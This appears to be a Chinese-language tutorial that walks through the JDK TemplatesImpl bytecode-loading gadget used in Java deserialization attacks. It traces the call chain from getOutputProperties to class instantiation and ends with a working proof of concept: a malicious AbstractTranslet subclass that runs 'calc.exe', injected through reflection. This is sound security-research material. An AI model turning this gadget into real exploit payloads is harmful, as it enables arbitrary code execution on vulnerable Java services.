


# TemplatesImpl
- [TemplatesImpl](#templatesimpl)
  - [ClassLoader](#classloader)
    - [defineClass类加载](#defineclass类加载)
  - [TransletClassLoader#defineClass](#transletclassloaderdefineclass)
    - [defineTransletClasses](#definetransletclasses)
      - [getTransletClasses()](#gettransletclasses)
      - [getTransletIndex()](#gettransletindex)
      - [getTransletInstance()](#gettransletinstance)
    - [newTransformer()](#newtransformer)
  - [POC构造](#poc构造)
    - [关键点](#关键点)

## ClassLoader
每个ClassLoader对象都是一个java.lang.ClassLoader的实例,每一个class对象都是由ClassLoader对象来加载,也可以继承java.lang.ClassLoader来扩展自定义ClassLoader来加载类.  
### defineClass类加载
在ClassLoader中有一个defineClass可以通过参数b传入字节码来加载一个Class.
```java
    protected final Class<?> defineClass(String name, byte[] b, int off, int len,
                                         ProtectionDomain protectionDomain)
        throws ClassFormatError
    {
        protectionDomain = preDefineClass(name, protectionDomain);
        String source = defineClassSourceLocation(protectionDomain);
        Class<?> c = defineClass1(name, b, off, len, protectionDomain, source);
        postDefineClass(c, protectionDomain);
        return c;
    }
```
## TransletClassLoader#defineClass
在java.lang.ClassLoader中的defineClass属性为protected,无法直接在外部访问,只能通过反射调用.而在TemplatesImpl.java中有一个TransletClassLoader类,其中继承了ClassLoader并重写了defineClass,其中没有显式声明作用域,而默认下为作用域default,代码如下
```java
Class defineClass(final byte[] b) {
            return defineClass(null, b, 0, b.length);
        }
```
### defineTransletClasses
而引用了TransletClassLoader.defineClass的的地方则是在defineTransletClasses().
.
可以看到将属性`_bytecodes`值传入loader.defineClass中,同时该属性为private访问权限.
而引用了defineTransletClasses()的地方一共有三处:
* getTransletClasses()
* getTransletIndex()
* getTransletInstance()
#### getTransletClasses()
相关代码如下
```java
    private synchronized Class[] getTransletClasses() {
        try {
            if (_class == null) defineTransletClasses();
        }
        catch (TransformerConfigurationException e) {
            // Falls through
        }
        return _class;
    }
```
在该方法中,虽然调用了defineTransletClasses()方法来加载了我们指定的类,但却没有对该类进行实例化,导致无法执行类中的静态代码块,也就无法执行我们的恶意代码.
#### getTransletIndex()
```java
    public synchronized int getTransletIndex() {
        try {
            if (_class == null) defineTransletClasses();
        }
        catch (TransformerConfigurationException e) {
            // Falls through
        }
        return _transletIndex;
    }
```
该方法同理,也没有进行实例化.
#### getTransletInstance()
```java
    private Translet getTransletInstance()
        throws TransformerConfigurationException {
        try {
            if (_name == null) return null;

            if (_class == null) defineTransletClasses();

            // The translet needs to keep a reference to all its auxiliary
            // class to prevent the GC from collecting them
            AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();
            ...
            ...
            ...
```
在该方法中,调用了`_class`的newInstance(),也就是对加载的指定类进行了实例化,我们的恶意代码也就可以自动触发了.
### newTransformer()
可以看到只有getTransletInstance()符合要求,而引用了getTransletInstance()的地方则是在newTransformer()中.
```java
    public synchronized Transformer newTransformer()
        throws TransformerConfigurationException
    {
        TransformerImpl transformer;

        transformer = new TransformerImpl(getTransletInstance(), _outputProperties,
            _indentNumber, _tfactory);
            ...
            ...
            ...
```
可以看到该类必须要是一个AbstractTranslet类型,而该类为一个抽象类,也就是我们传入的类也要是AbstractTranslet类的实现类.
而newTransformer()则是在getOutputProperties()中
```java
    public synchronized Properties getOutputProperties() {
        try {
            return newTransformer().getOutputProperties();
        }
        catch (TransformerConfigurationException e) {
            return null;
        }
    }
```
## POC构造
现在的触发流程如下:
1. getOutputProperties()->newTransformer()
2. newTransformer()->getTransletInstance()
3. getTransletInstance()->defineTransletClasses()
4. defineTransletClasses()->TransletClassLoader()
5. TransletClassLoader()->defineClass()
6. defineClass()->加载指定类
7. _class.newInstance()实例化指定类,触发静态代码块或者构造函数中的恶意代码.  
8. 

继承了AbstractTranslet的恶意类实例代码:
```java
public class Poc extends AbstractTranslet {
    public Poc() throws Exception {
        Runtime.getRuntime().exec("calc.exe");
    }
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }

    public static void main(String[] args) throws Exception{
        Poc poc = new Poc();
    }

}
```
从getOutputProperties当入口为例.
```java
 public static void main(String[] args) throws Exception {
        TemplatesImpl jrs = new TemplatesImpl();
        byte [] code = getbytes("D:\\\\coding\\\\Temlpates\\\\target\\\\test-classes\\\\Poc.class");
        setFieldValue(jrs,"_bytecodes",new byte[][] {code});
        setFieldValue(jrs,"_name","1");
        setFieldValue(jrs,"_tfactory",new TransformerFactoryImpl());
        jrs.getOutputProperties();
    }
    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static byte[] getbytes(String filename) throws Exception{
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        try {
            IOUtils.copy(new FileInputStream(new File(filename)), bos);
        } catch (IOException e) {
            e.printStackTrace();
        }
        byte[] result = bos.toByteArray();
        return result;
    }
}
```


### 关键点
1. 通过反射来设置TemplatesImpl的相关属性.
2. _name属性要不为空.  

3. _tfactory属性要为TransformerFactoryImpl对象.

不然在生成TransletClassLoader时会报错.


